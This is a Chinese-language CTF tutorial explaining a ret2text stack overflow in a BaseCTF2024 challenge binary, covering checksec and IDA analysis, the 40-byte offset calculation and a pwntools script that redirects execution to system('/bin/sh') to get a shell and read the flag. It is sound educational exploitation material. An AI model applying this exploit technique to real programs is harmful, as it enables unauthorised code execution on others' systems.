# CTF Pwn入门：P1：Ret2text栈溢出漏洞利用教程 🚩

在本教程中，我们将学习如何利用一个简单的栈溢出漏洞（Ret2text）。我们将通过分析一道来自BaseCTF2024的Pwn题目，理解其原理，并一步步完成漏洞利用，最终获取目标系统的shell权限。

---

## 概述

栈溢出是一种常见的安全漏洞，当程序向栈上的缓冲区写入超过其容量的数据时，就会发生溢出，覆盖掉栈上的其他关键数据（如函数返回地址）。通过精心构造输入数据，攻击者可以控制程序的执行流程，跳转到任意代码位置。本节课我们将利用此漏洞，让程序跳转到一个已经存在的、能获取shell的函数片段（`/bin/sh`）。



---

## 1：环境准备与文件分析



首先，我们需要获取并分析目标程序。



我们将题目文件下载到本地。这是一个名为 `ret2text` 的二进制文件。在开始分析前，我们使用 `checksec` 工具检查其安全属性。



```bash
checksec ret2text
```

检查结果显示，这是一个64位程序，并且没有开启栈保护（Canary）和地址空间布局随机化（PIE）。这为我们利用栈溢出漏洞提供了便利。



接下来，我们使用反汇编工具IDA Pro（64位版本）打开这个程序，进行静态分析。



---

## 2：漏洞定位与分析

上一节我们检查了程序的基本信息，本节中我们来看看程序内部的具体逻辑。

在IDA中分析主函数，我们发现以下关键代码：

```c
int main() {
    char buff[32]; // 在栈上分配一个32字节的缓冲区
    read(0, buff, 100); // 从标准输入读取最多100字节到buff中
    return 0;
}
```



这里存在一个明显的栈溢出漏洞：`buff` 数组的大小是32字节，但 `read` 函数允许读取最多100字节的数据。如果输入超过32字节，多余的数据就会覆盖栈上 `buff` 之后的内存区域。

继续分析程序，我们发现程序中还存在一个名为 `get_shell` 的函数。



```c
void get_shell() {
    system("/bin/sh");
}
```



这个函数内部调用了 `system("/bin/sh")`，可以为我们启动一个shell。我们的攻击目标就是利用栈溢出，将程序的执行流劫持到这个 `get_shell` 函数。

---

## 3：计算溢出偏移量

为了控制返回地址，我们需要精确知道需要多少数据才能覆盖到它。



以下是计算过程：
1.  `buff` 数组本身占用32字节。
2.  在64位程序中，调用函数时，`main` 函数的返回地址保存在栈上，位于 `buff` 数组的“上方”。
3.  在 `main` 函数开头，通常会将旧的栈基址指针（RBP）压栈。这占用8字节。
4.  因此，从 `buff` 起始位置到返回地址的偏移量为：`32字节(buff) + 8字节(旧的RBP) = 40字节`。

所以，我们需要先填充40个任意字符（如‘A’），之后输入的8个字节就会覆盖到返回地址。



---

## 4：构造利用载荷（Payload）

现在我们已经知道了偏移量，并找到了目标地址（`get_shell` 函数的地址）。接下来就是构造最终的攻击输入。

在IDA中，我们可以查到 `get_shell` 函数的起始地址是 `0x4011BD`。注意，我们需要的是函数中 `system("/bin/sh")` 指令的具体地址。查看该函数汇编代码，发现 `system` 调用位于 `0x4011DB`。**我们必须使用这个包含有效指令的地址，而不是函数入口地址**。

因此，我们的攻击载荷结构如下：
```
[ 40字节的填充数据 ] + [ 目标地址 (0x4011DB) 的8字节表示 ]
```



由于是小端序（Little-endian）架构，地址 `0x4011DB` 在内存中应写作 `\xdb\x11\x40\x00\x00\x00\x00\x00`。

我们可以使用Python配合`pwntools`库来生成这个载荷：



```python
from pwn import *



# 设置目标程序
p = process('./ret2text')

# 构造payload
offset = 40
target_address = 0x4011DB
payload = b'A' * offset + p64(target_address)

# 发送payload
p.send(payload)



# 切换到交互模式，获得shell
p.interactive()
```



---

## 5：执行攻击与获取Flag

我们将编写好的利用脚本在题目环境下运行。



脚本成功执行后，程序会跳转到 `0x4011DB` 执行 `system("/bin/sh")`，我们从而获得了一个shell。在这个shell中，我们可以执行命令来寻找并读取flag文件。

通常，命令如下：
```bash
cat flag
或
ls -la
find . -name “*flag*”
```

执行 `cat flag` 后，我们成功拿到了本题的flag，完成了挑战。


---

## 总结

本节课中我们一起学习了经典的栈溢出攻击技术——Ret2text。我们完整地走过了漏洞利用的流程：
1.  **分析程序**：使用 `checksec` 和 IDA 确定漏洞点和可利用函数。
2.  **计算偏移**：确定覆盖返回地址所需的数据长度。
3.  **定位目标**：找到程序中已有的、能获取shell的代码地址（`system(“/bin/sh”)`）。
4.  **构造载荷**：拼接填充数据和目标地址。
5.  **实施攻击**：发送载荷，劫持控制流，成功获取shell和flag。

理解这个基础案例是学习更复杂Pwn技术的重要一步。通过控制返回地址，我们能够引导程序执行任意已有的代码片段（Gadget），为后续学习ROP（面向返回编程）链的构造打下基础。